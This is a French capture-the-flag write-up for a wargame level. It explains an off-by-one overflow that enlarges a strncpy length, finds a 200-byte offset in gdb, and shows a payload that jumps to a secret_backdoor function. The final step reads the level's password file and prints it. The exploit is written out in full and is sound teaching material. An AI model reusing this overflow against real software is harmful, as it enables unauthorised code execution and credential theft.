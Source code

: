 # level09

En ouvrant l'exécutable sur un décompileur, on voit rapidement la fonction `secret_backdoor`, on comprend donc qu'on va devoir y accéder via un overflow ou un string format.

Aucun printf en vue, on commence donc par explorer l'option de l'overflow.

Le programme nous propose de définir notre username et d'envoyer un message, `main` appelle `handle_msg` qui a un buffer `v1` d'une taille de `140`

Derrière la déclaration de `v1`, on push 5 `int64` sur la stack, donc `40 bytes`.

On a ensuite un int `v7` qui vaut `140`

`set_username` est appelé avec notre buffer `v1` en argument, il va lire `128 bytes` de notre input dans un buffer de `140` caractères, donc pas d'overflow ici.

En revanche, on a ensuite cette boucle:

```C
for ( i = 0; i <= 40 && s[i]; ++i )
    *(_BYTE *)(a1 + i + 140) = s[i];
```

La condition `i <= 40` nous fait comprendre que l'on peut copier jusqu'à `41 bytes` dans `a1 + 140`, on avait noté plus haut qu'il n'y avait que `40 bytes` allouées à la suite de `a1`, le 41ème byte que l'on peut copier va donc overflow le premier byte de `v7`, l'int qui vaut `140` dans `handle_msg`.

`handle_msg` appelle ensuite `set_msg`, qui va prendre notre input pour définir le message, et appeler ensuite `strncpy` de cette manière:

```C
return strncpy((char *)a1, s, *(int *)(a1 + 180));
```

Le 3ème argument de `strncpy` est le nombre de bytes qui vont etre copiés, ici, on utilise la valeur située à `a1 + 180`, donc `v7`. Hors on a noté précédemment qu'il était possible d'overflow le premier byte de `v7` et donc d'augmenter considérablement sa valeur.

Ici, notre `strncpy` va copier notre input dans `a1` (`v1` de `handle_msg`)

On doit donc utiliser `set_username` pour overflow la valeur de `v7`, puis utiliser `set_msg` pour écrire l'adresse de `secret_backdoor` en dehors de la memoire allouée.

Petit coup de pattern generator pour trouver l'offset 

```sh
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) run < <(python -c 'print("a" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level09/level09 < <(python -c 'print("a" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) info registers
rax            0xd	13
rbx            0x0	0
rcx            0x7ffff7b01f90	140737348902800
rdx            0x7ffff7dd5a90	140737351867024
rsi            0x7ffff7ff7000	140737354100736
rdi            0xffffffff	4294967295
rbp            0x6741356741346741	0x6741356741346741
rsp            0x7fffffffe5d8	0x7fffffffe5d8
r8             0x7ffff7ff7004	140737354100740
r9             0xc	12
r10            0x7fffffffde80	140737488346752
r11            0x246	582
r12            0x555555554790	93824992233360
r13            0x7fffffffe6c0	140737488348864
r14            0x0	0
r15            0x0	0
rip            0x555555554931	0x555555554931 <handle_msg+113>
eflags         0x10246	[ PF ZF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
```

On trouve un offset de `192` pour écrire

On ajoute 8 pour arriver à `rsp` (voir [source](https://blog.zenika.com/2020/06/24/exploitation-stack-buffer-overflow-return-oriented-programming-la-theorie/)), ce qui nous donne un offset de 200

Derrière notre offset de 200, on va mettre les 4 derniers bytes de l'addresse de `secret_backdoor` (le reste de bytes étant déjà identique, pas besoin de les réécrire).

Ce qui nous donne:

```sh
python -c 'print(b"\xca" * 45)' > /tmp/first

python -c 'print("A" * 200 + "\x8c\x48")' > /tmp/second
```

```bash
level09@OverRide:~$ cat /tmp/second - | cat /tmp/first - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```